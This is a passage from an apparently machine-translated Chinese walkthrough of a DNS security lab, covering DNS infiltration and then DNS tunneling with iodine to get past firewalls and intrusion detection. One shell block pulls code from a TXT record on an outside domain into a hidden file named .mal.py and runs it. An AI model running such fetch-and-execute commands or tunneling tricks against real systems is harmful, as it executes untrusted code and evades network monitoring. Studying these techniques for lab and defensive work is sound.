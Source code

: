 ![](img/4fcccb73b2ee368571649e005507c930.png)

```
nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \" -f2 > .mal.py
python3 ~/dns-exfil-infil/packetySimple.py
cat .mal.py
python3 .mal.py
```

![](img/712cd1afae4f7e888d74c74404fb46f9.png)

> **答案:4 . 4 . 0–186-通用**

# 任务 11: DNS 隧道

在前两个任务中，我们已经看到了如何使用 DNS 请求和响应来渗透和执行有效负载。公司通常会安装防火墙、IDSs(入侵检测系统)和/或 IPSs(入侵保护系统),以便在不需要的入站和出站协议通过其网络时进行预防/报警。公司很少监控的一个协议是 DNS。正因为如此，黑客能够通过使用 DNS 隧道绕过许多“不想要的”协议。

# 演示

在这个演示中，我们将探索黑客如何通过使用 HTTP over DNS 绕过各种受限网站。为了达到这个目的，我将使用“碘”。你可以在这里阅读更多关于‘碘’的内容:[碘](https://code.kryo.se/iodine/)。
